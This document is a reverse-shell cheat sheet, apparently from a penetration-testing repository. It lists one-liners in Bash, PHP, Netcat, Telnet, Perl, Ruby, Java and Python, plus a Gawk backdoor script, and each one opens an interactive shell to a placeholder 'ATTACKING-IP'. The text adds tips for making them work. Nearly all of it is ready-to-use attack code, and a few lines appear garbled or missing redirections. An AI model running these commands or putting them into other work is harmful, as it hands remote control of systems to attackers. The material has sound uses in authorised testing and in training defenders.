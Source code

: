 # Reverse Shell

### Bash Reverse Shells

`exec /bin/bash 0&0 2>&0`

`0<&196;exec 196<>/dev/tcp/ATTACKING-IP/80; sh <&196 >&196 2>&196`
```
exec 5<>/dev/tcp/ATTACKING-IP/80
cat <&5 | while read line; do $line 2>&5 >&5; done 

# or:

while read line 0<&5; do $line 2>&5 >&5; done
```

`bash -i >& /dev/tcp/ATTACKING-IP/80 0>&1`

### PHP Reverse Shell


`php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'`

**(Assumes TCP uses file descriptor 3. If it doesn't work, try 4,5, or 6)**


### Netcat Reverse Shell

`nc -e /bin/sh ATTACKING-IP 80`

`/bin/sh | nc ATTACKING-IP 80`

`rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p`


### Telnet Reverse Shell

`rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p`

`telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443`

**Remember to listen on 443 on the attacking machine also.**

### Perl Reverse Shell

```
perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### Perl Windows Reverse Shell
```
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"ATTACKING-IP:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

```
perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### Ruby Reverse Shell

```
ruby -rsocket -e'f=TCPSocket.open("ATTACKING-IP",80).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Java Reverse Shell

```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/ATTACKING-IP/80;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### Python Reverse Shell

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Gawk Reverse Shell

```
#!/usr/bin/gawk -f

BEGIN {
        Port    =       8080
        Prompt  =       "bkd> "

        Service = "/inet/tcp/" Port "/0/0"
        while (1) {
                do {
                        printf Prompt |& Service
                        Service |& getline cmd
                        if (cmd) {
                                while ((cmd |& getline) > 0)
                                        print $0 |& Service
                                close(cmd)
                        }
                } while (cmd != "exit")
                close(Service)
        }
}
```
